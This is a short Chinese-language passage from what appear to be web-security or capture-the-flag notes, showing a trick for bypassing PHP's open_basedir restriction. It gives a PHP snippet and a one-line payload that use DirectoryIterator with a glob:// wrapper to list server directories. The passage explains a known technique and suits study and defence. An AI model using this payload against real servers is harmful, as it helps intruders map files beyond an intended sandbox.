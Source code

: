 <img src="./images/15.png" alt="">

<img src="./images/16.png" alt="">

#### trick:使用可遍历目录类绕过 open_basedir
> 使用 DirectoryIterator 类

```php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```
